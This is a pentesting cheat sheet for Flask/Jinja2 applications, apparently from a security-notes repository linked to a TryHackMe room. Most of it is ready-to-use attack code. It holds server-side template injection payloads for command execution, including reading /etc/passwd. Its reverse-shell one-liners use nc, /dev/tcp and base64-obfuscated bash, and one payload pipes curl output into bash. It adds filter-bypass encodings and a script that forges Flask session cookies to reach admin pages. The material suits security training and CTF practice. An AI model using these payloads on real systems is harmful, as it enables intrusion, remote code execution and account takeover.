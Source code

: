 ```yaml
---
title: Flask Jinja2 Pentesting
description: Flask is a micro web framework written in Python.
tags:
    - SSTI
    - Web
refs:
    - https://tryhackme.com/room/hipflask
    - https://infosecwriteups.com/-e91b4e65a4b2
date: 2023-09-22
draft: false
---
```


## Common Directories

```bash
/app.py
/main.py
/modules.py
/modules/__init__.py
/modules/admin.py
```

<br /><br />

## SSTI (Server-Side Template Injection)

Sometimes, website may filter specific characters.  
If so, **URL encode the payload or convert to HEX**.  
In addition, it’s recommended to send requests using **Burp Suite** because web browsers automatically update the payload.

First, try below payloads.

```py
{{ 4*2 }}
{{ config.items() }}
# Remove curly brackets
{2*3}
2*3
```

### RCE

If success, we may be able to exploit with OS command injection.

```bash
{{ __import__('os').system('ping -c 1 10.0.0.1') }}

{{ request.application.__globals__.__builtins__.__import__('os').popen('id').read() }}

{{ request['application']['__globals__']['__builtins__']['__import__']('os')['popen']('id')['read']() }}

{{ request['application']['\x5f\x5fglobals\x5f\x5f']['\x5f\x5fbuiltins\x5f\x5f']['\x5f\x5fimport\x5f\x5f']('os')['popen']('id')['read']() }}

{{ request|attr('application')|attr('__globals__')|attr('__getitem__')('__builtins__')|attr('__getitem__')('__import__')('os')|attr('popen')('id')|attr('read')() }}

{{ request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('id')|attr('read')() }}

{{ [].__class__.__base__.__subclasses__()[422]('cat /etc/passwd',shell=True,stdout=-1).communicate()[0].strip() }}

{{ ''.__class__.__mro__[1].__subclasses__()[401]("whoami", shell=True, stdout=-1).communicate() }}
```

<br />

### Reverse Shell

```bash
{{config.__class__.__init__.__globals__['os'].popen('mkfifo /tmp/ZTQ0Y; nc 10.0.0.1 443 0</tmp/ZTQ0Y | /bin/sh >/tmp/ZTQ0Y 2>&1; rm /tmp/ZTQ0Y').read()}}

{{ request|attr('application')|attr('__globals__')|attr('__getitem__')('__builtins__')|attr('__getitem__')('__import__')('os')|attr('popen')('rm -f /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 4444 >/tmp/f')|attr('read')() }}

# Filter bypass - Base64 encode
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('echo "YmFzaCAtYyAiYmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNi4xNy80NDQ0IDA+JjEi" | base64 -d | bash').read() }}
```

Alternatively, we can create a shell script to reverse shell, then execute it in the server side.  
For example, create a shell script named "revshell" in local machine.

```bash
#!/bin/bash
bash -c "bash -i >& /dev/tcp/10.0.0.1/4444 0>&1"
```

Then host it and start a listener for receiving an incoming request.

```bash
# Local terminal 1
python3 -m http.server 8000

# Local terminal 2
nc -lvnp 4444
```

Now inject SSTI in the target website.

```bash
{{request.application.__globals__.__builtins__.__import__('os').popen('curl 10.0.0.1:8000/revshell | bash').read()}}

# Filter bypassing
{{request|attr("application")|attr("\x5f\x5fglobals\x5f\x5f")|attr("\x5f\x5fgetitem\x5f\x5f")("\x5f\x5fbuiltins\x5f\x5f")|attr("\x5f\x5fgetitem\x5f\x5f")("\x5f\x5fimport\x5f\x5f")("os")|attr("popen")("curl 10.0.0.1:8000/revshell | bash")|attr("read")()}}
```

We may get a shell.

<br /><br />

## SSTI with Error Page

If the website displays **an error page (404, 403, etc.)** when we access to the page which does not exists, the path may be reflected in the error page. For example, when we attempt to access to **`/example.html`** which does not exist, the error page will show messages like the following.

```txt
No result for /example.html
```

As you know, we can insert the **malicious program** using **SSTI**.  
For instance, try to access **`http://example.com/{{ 2*3 }}`**.  
The error page will reflect the result of **"2*3"** as follow.

```txt
No result for 6
```

<br /><br />

## Decode Session Cookie

The session of cookie in the Flask webapp can be decoded.

- **[Flask Session Cookie Decoder](https://www.kirsle.net/wizards/flask-session.cgi)**

<br /><br />

## Cookie Forgery

### 1. Create a Python Virtual Environment

```bash
python3 -m venv myenv
source myenv/bin/activate
```

<br />

### 2. Install Packages

```bash
pip3 install flask requests waitress
```

<br />

### 3. Create a Python Script

For instance, create “test.py”.  
Replace the **"SECRET_KEY"** value with the target Flask app's secret key.

```python
#!/usr/bin/env python3
from flask import Flask, session, request
from waitress import serve
import requests, threading, time

app = Flask(__name__)
app.config["SECRET_KEY"] = "c53ac69e07ed112ecb788eb4dc831990"

@app.route("/")
def main():
    session["auth"] = "True"
    session["username"] = "test" # SSTI may be applied with "{{ 3*7 }}"
    return "Check you cookies", 200

# Flask setup/start
thread = threading.Thread(target = lambda: serve(app, port=9000, host="127.0.0.1"))
thread.setDaemon(True)
thread.start()

# Request
time.sleep(1)
print(requests.get("http://localhost:9000/").cookies.get("session"))
```

<br />

### 4. Run the Script

```bash
python3 test.py
```

The cookie value generated.

Copy and paste it into the Cookie of the HTTP header in browser as below.

```bash
Cookie: session=<generated_cookie_value>
```

Now we can login and access to admin page e.g. /admin.  
After exploiting, deactivate the python virtual environment.

```bash
deactivate
```
